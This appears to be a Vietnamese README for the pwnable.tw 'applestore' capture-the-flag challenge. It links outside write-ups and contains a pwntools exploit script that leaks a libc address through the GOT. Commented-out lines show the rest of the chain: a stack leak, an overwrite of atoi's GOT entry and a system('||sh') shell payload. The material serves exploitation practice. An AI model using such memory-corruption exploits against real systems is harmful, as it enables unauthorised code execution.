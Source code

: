 # applestore 
- 1 chall khó kết hợp giữa stack pivoting và bof
- vì ko debug được trên mình ko viết wu được, nên mình gửi wu mình tìm được tại đây
# writeup 
- https://drx.home.blog/2019/04/16/pwnable-tw-applestore/
- https://hackmd.io/@trhoanglan04/ryoncvv42#applestore-200-pts
# script 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./applestore_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe

p = process([exe.path])
# p = remote('chall.pwnable.tw', 10104)

gdb.attach(p, gdbscript='''
# b*create+79
# b*insert+52
b*delete+71
b*delete+101
b*0x08048b6b
c
''')
input()
    
def add(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'> ', str(idx))

def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'> ', idx)

def checkout():
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'> ', b'y')


for i in range(20):
        add(2)

for i in range(6):
        add(1)

checkout()

payload = b'27' + p32(exe.got['puts'])
delete(payload)

# p.recvuntil(b'27:')
# libc_leak = u32(p.recv(4))
# libc.address = libc_leak - libc.sym['puts']
# info("libc leak: " + hex(libc_leak))
# info("libc base: " + hex(libc.address))

# payload = b'27' + p32(libc.sym['__environ'])
# delete(payload)

# p.recvuntil(b'27:')
# stack_leak = u32(p.recv(4))
# need = stack_leak - 0x104 - 0x8
# info("stack leak: " + hex(stack_leak))
# info("stack need: " + hex(need))


# payload = b'27' + p32(0)*2 + p32(exe.got['atoi']+0x22) + p32(need)
# delete(payload)

# payload = p32(libc.sym['system']) + b'||sh'
# p.sendlineafter(b'> ', payload)

p.interactive()
```
